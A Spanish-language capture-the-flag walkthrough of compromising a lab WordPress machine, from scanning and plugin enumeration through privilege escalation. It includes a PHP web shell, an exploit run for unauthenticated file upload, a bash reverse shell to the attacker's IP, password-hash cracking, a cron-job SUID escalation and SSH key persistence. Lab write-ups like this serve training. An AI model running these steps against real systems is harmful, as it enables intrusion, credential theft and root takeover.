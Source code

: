 ![[Atacante]]
# Fase de reconocimiento
## Identificamos la maquina
```
arp-scan -I ens33 --localnet
```
## Creamos directorios de trabajo
## Buscamos puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip1> -oG allPorts
```
![[Pasted image 20240419171219.png]]

## Reconocimiento de servicios
```
nmap -sCV -p<puertos> <ip1> -oN targeted
```
![[Pasted image 20240419172046.png]]
![[Pasted image 20240419172332.png]]
## Buscar tecnologías usadas en la web
```
whatweb http://<ip1>
```
![[Pasted image 20240419172801.png]]
## Enumeración directorios por fuerza bruta
```
gobuster dir -u http://<ip1>/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt
```
![[Pasted image 20240419173821.png]]

## Añadimos los DNS para que cargue bien la pagina
En /etc/hosts
![[Pasted image 20240419174145.png]]

# Fase de Explotación
Como podemos observar con Wappalyzer nos encontramos ante un Wordpress
## Buscar vulnerabilidades
```
wpscan --url http://<ip1>/blog/ --enumerate u,vp --plugins-detection aggressive    --api-token=<API>
```
![[Pasted image 20240419174855.png]]
![[Pasted image 20240419175004.png]]
## Usaremos Unauthenticated Arbitrary File Upload leading to RCE

1. Descargamos la POC del link
2. Creamos el payload.php 
```
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```
	![[Pasted image 20240419175408.png]]
1. Ejecutamos el exploit con el payload cargado en codigo.
``` 
pyhton3 exploit.py http://<ip1>/blog/
```
Ya funciona! Se insertan comandos desde ?cmd=
![[Pasted image 20240419175945.png]]

## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
2. Mandamos la Reverse Shell
```
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/<port> 0>%261"
```

![[Pasted image 20240419180437.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```


# Privilege Escalation
## Buscar donde está montado el wordpress
1. Encontramos un apache que nos dice donde está montado
2. Abrimos wp-config.php en busca de credenciales
3. Encontramos que llama al archivo config.default.php
4. ![[Pasted image 20240419192906.png]]
## Login en la BBDD
```
mysql -uroot -p
```
Dentro de la BBDD: 
```
show databases;
```
```
use wordpress;
```
```
show tables;
```
```
select * from wp_users;
```

Encontramos una contraseña cifrada
## Crack contraseña
```
john -w:/usr/sahre/wordlists/rockyou.txt <hash>
```
## Enumeramos binarios con permiso del usuario
1. Nos logueamos con la cuenta por ssh con la contraseña crackeada
2.  cd /
3. 
```
find \-user <user> 2>/dev/null
```
4. Encontramos un backup.sh , una tarea perteneciente a 'user' que ejecuta root. 
5.  Modificamos el script
```
chmod u+s /bin/bash
```
![[Pasted image 20240419194034.png]]
6. Esperas que se ejecute la tarea
```
bash -p
```
[+] ==pwned!==

# Pivoting
- Añadimos nuestra clave publica a /root/.ssh/authorized_keys
```
ssh root@<ip1>
```

Next -> [[2. Nagini]]


# Resumen Técnicas 
WordPress Enumeration + Virtual Hosting  
Using wpscan + API TOKEN for vulnerability discovery in wordpress  
File Manager WordPress Plugin Exploitation - Unauthenticated Arbitrary File Upload leading to RCE  
Uploading a web shell to the server  
Enumerating the Apache web server directory structure  
MYSQL Database Enumeration  
Cracking Hashes + Password reuse  
Abusing Cron Job (Privilege Escalation)  
EXTRA: Creation of bash script to discover computers on the internal network  
EXTRA: Creation of a bash script to discover the open ports of the computers discovered in the internal network